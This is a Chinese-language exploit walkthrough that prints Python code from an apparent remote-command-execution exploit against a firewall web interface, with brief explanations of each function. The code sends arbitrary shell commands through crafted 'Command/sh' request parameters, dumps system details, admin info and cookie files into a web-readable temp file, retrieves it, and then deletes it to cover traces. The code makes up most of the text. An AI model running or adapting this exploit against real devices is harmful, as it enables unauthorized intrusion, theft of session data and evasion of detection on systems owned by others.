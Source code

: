 

## 三、漏洞利用分析
```
.....
def touch(self,resp=None):
    out = []
    if not resp:
        resp = self.head(self.target_url)
    if 'etag' in resp.headers:
        etag,date = self._parse_etag(resp.headers['etag'])
        ##

        out.append("Etag - %s; Last modified - %s" % (etag,date))
    self.timeout = None
    return out
```
获取`etag`标识和修改时间   
```
def probe(self):
    temp = randstr(7)
    ##

    self.log.info("Scheduling cleanup in 60 seconds...")
    self._run_cmd("( sleep 60 && rm -f /www/htdocs/site/pages/.%s )" % temp)

    self.log.info("Probing system and retrieving target info...")
    ##

    self._run_cmd("( cat /e*/is* && uname -a && /t*/b*/cfgt* system admininfo showonline && cat /*/*coo*/* )>/www/htdocs/site/pages/.%s"% temp)
    res = self.get("/site/pages/.%s" % temp)
    self.log.info("System information retrieved:\n"+res.content)

    self.log.info("Forcing removal of temp file from target now...")
    self._run_cmd("killall sleep && rm -f /www/htdocs/site/pages/.%s" % temp)
    if res.content.find("i686") == -1:
        return "System does not appear to be x86. Probably not exploitable."
    if res.content.find("tospass") != -1 or res.content.find("superman") != -1:
        self.log.warning("User may be logged in. PLEASE REVIEW SYSTEM INFO")
```
探测目标是否可以利用，如果不是x86体系结构也不能利用  
```
def _run_cmd(self,cmd,content=None,**kwargs):
    params = {
                "Url":"Command",
                "Action":"sh",
                "Para":"sh -c "+cmd.replace(" ","\t")
    }
    if content:
        c = StringIO(content)
        kwargs['data'],kwargs['files'] = params,{randstr(5):c}
        //post提交
        return self.post(self.exploit_url,**kwargs)
    else:
        kwargs['params'] = params
        return self.get(self.exploit_url,**kwargs)
```
Exp的主要逻辑，通过构造post请求，提交前面提到的Url、Action、Para等主要参数  

通过向`sh`程序传递shell指令，达到任意命令执行   


